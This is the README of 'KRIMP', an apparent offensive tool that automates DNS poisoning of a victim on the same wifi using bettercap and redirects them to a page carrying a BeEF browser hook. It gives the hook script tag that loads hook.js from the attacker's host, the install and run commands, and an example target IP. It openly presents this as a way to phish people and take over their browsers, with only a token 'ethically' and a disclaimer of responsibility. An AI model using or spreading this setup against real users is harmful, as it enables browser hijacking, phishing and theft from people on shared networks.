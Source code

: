 # KRIMP
```
    ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
    ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
    ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
   ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
   ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
    ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
    ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
    ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
    ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered. 

This tool automates the process of DNS poisoning a target on your wifi, by doing this you can make a custom URL and redirecting your IP, which is hosting apache, to this URL. Once the target is on this page, you will have full access to their browser because of the beEF hook.  

**This tool is in its alpha stage, more automation will come**

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap OR run the install script, it will do everything for you.

## Running the script


`git clone https://github.com/SysGerm/krimp.git`

`chmod +x install.sh`

`./install.sh`

`chmod +x krimp.sh`

`./krimp.sh DOMAIN LOCAL-TARGET-IP`

Example: 

`./krimp.sh sysgerm.com 192.168.0.4`
### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

#### Responsibility
I am not responsible for any actions u take with this tool.


